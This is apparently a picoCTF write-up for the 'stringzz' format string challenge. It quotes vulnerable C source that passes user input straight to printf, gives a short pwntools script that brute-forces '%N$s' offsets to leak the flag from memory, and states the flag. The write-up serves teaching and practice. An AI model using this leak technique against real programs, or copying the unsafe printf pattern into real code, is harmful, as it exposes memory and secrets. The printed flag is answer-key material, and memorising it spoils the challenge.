


# stringzz

Points: 300

# Question

Use a format string to pwn this [program](vuln) and get a flag. Its also found in /problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010 on the shell server. [Source](vuln.c).

# Hint 

http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

# Solution

Looking at the source code:

```C
void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);                        <----- printf which can be exploit with format strings
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);            <------ user give some input 
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");                
    fgets(buf,FLAG_BUFFER,f);                <------ flag loaded to some place in memory
    printMessage1(input);        
    fflush(stdout);
 
}
```

This time we have no win function and we don't need to overflow the buff, the flag is somewhere in the memory and we can just print it using format_strings 

for example, if we give "%x" as input we will some output we did not suppose to get, look like memory addresses.



so we can brute-force and make the program print a lot of stuff that stored in our memory and hopefully the flag  - [script](script.py)

```python
from pwn import *

path ="/problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010/vuln"
for i in range(100):
        try:
            sh =process(path)
            sh.sendline('%{}$s'.format(i))
            print(sh.recv())
            sh.close()
        except EOFError:
            pass
```

after searching a bit between all outputs we can find the flag 



# Flag
picoCTF{str1nG_CH3353_0814bc7c}

